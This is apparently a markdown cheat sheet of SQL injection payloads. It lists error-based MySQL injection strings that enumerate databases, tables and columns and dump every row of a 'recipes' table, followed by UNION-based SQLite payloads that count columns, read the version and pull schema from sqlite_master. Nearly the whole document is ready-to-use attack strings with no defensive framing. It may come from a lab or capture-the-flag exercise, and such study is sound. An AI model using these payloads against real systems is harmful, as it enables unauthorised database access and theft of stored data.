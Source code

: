 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- The actual data retriving payload inside <<<>>>

```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT       ........... <<<version()>>> ...........          )s), 8446744073709551610, 8446744073709551610)))#
```
### Payloads
- Retrieve Databases names in one line
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT GROUP_CONCAT(schema_name) AS AllDatabases FROM information_schema.SCHEMATA)s), 8446744073709551610, 8446744073709551610)))#
```
- Retrive Table Names 
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'recipes' AND TABLE_TYPE = 'BASE TABLE')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Column Names
- Group_concat(concatinate the values of output in one line)
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'recipes' AND TABLE_NAME = 'recipes')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Data from Table Columns
- Concat_ws(replace null value as '')
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT concat_ws(',',id,name,servings,ingredients,instructions,description,category,added,modified,creator,editor,imagefile) FROM recipes)s), 8446744073709551610, 8446744073709551610)))#
```



## UnionBassed SQLI
- SQLite
- Test for the available columns
```
' union select 1,2,3,4,5,6,7 -- 
```
### Inject Payload
- Version check
```
' union select sqlite_version(),2,3,4,5,6 --
```
- Table Name exfilterate
```
' union select tbl_name,2,3,4,5,6 from sqlite_master--
```
-Column names exfilterate
```
' union select sql,2,3,4,5,6 from sqlite_master--
```

